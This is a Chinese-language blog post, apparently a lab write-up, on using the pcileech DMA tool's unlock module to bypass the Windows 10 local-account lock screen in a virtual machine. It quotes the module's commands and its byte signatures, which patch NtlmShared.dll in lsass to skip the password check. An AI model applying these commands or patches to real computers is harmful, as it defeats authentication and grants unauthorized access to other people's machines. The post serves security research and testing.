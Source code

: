```yaml
---
layout:     post
title:      【技术研究】使用Pcileech绕过windows锁屏密钥
subtitle:   TEC
date:       2024-03-27
author:     Corax
header-img: img/post-bg-coffee1.jpg
catalog: true
tags:
    - 【技术研究】
    - 【逆向】
---
```


## 资料

https://github.com/ufrisk/pcileech

https://github.com/ufrisk/LeechCore/wiki/Device_VMWare

本篇博客有关于通过使用pcileech的unlock模块，绕过windows10版本锁屏密码（本地帐号）。

第一个是pcileech的项目地址 本篇大部分内容与此相关。

也贴出pcileech的有关dma测信道攻击的博客，有些信息还是蛮有用的

https://www.iotsec-zone.com/article/165

## windows10测试

在虚拟机内安装好windows10并设定好本地账号密码

如下界面

![image-20240328183527441](https://typora-1321221957.cos.ap-shanghai.myqcloud.com/image1/202403281851300.png)

下面我们使用pcileech 这里我是github下载的最新发布版

pcileech现在简单来讲就是可以无需进入系统，利用dma机制，直接读入且拥有修改内存的权限。

测试链接 一切正常 可以读入目标机数据

![image-20240328183615935](https://typora-1321221957.cos.ap-shanghai.myqcloud.com/image1/202403281851302.png)

unlock为pcileech内置的 简单看一下代码

```
# Unlock Signatures for Local and AD Accounts for Windows 10 x64 version
#
# Method 1: (faster):
# 1.1 check pid of lsass.exe: pcileech pslist
# 1.2 patch: pcileech patch -sig wx64_unlock_win10.sig -all -pid <pid_of_lsass>
#
# Method 2:
# 2.1 patch: pcileech patch -sig wx64_unlock_win10.sig -all
#
# Syntax: see signature_info.txt for more information.
# Generated on 2023-11-26 16:58:59
#
#
# Signature for Windows 10 x64 [NtlmShared.dll 10.0.10240.16384 / 2015-07-10]
# Signature for Windows 10 x64 [NtlmShared.dll 10.0.10240.18366 / 2019-09-30]
5DC,488BCBFF154B1C0000,5E8,0F8518FBFFFF,5E8,909090909090
#
# Signature for Windows 10 x64 [NtlmShared.dll 10.0.10240.19387 / 2022-08-04]
65C,488BCBFF15CB1B0000,668,0F8518FBFFFF,668,909090909090
#
```